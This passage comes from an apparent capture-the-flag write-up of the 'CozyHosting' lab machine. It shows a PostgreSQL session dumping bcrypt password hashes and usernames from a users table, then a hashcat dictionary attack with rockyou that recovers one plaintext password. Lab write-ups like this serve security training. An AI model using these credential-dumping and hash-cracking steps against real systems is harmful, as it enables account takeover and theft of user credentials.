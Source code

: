 ```bash
(4 rows)

postgres=# \\\\c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \\\\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

cozyhosting=# SELECT password FROM users;
                           password
--------------------------------------------------------------
 $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)

cozyhosting=# SELECT name FROM users;
   name
-----------
 kanderson
 admin
(2 rows)
```

That looks like a `bcrypt` hash, so I will run it through `hashcat` against `rockyou`.

```bash
$ hashcat -a 0 -m 3200  ../bcrypt-cozy.txt ../rockyou.txt

[...]

Host memory required for this attack: 49 MB

Dictionary cache built:
* Filename..: ../rockyou.txt
* Passwords.: 14344394
* Bytes.....: 139922213
* Keyspace..: 14344387
* Runtime...: 0 secs

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
Time.Started.....: Tue Sep 05 07:20:52 2023 (5 secs)
Time.Estimated...: Tue Sep 05 07:20:57 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      504 H/s (5.31ms) @ Accel:2 Loops:8 Thr:12 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2880/14344387 (0.02%)
Rejected.........: 0/2880 (0.00%)
Restore.Point....: 2520/14344387 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: biscuit -> soccer9
```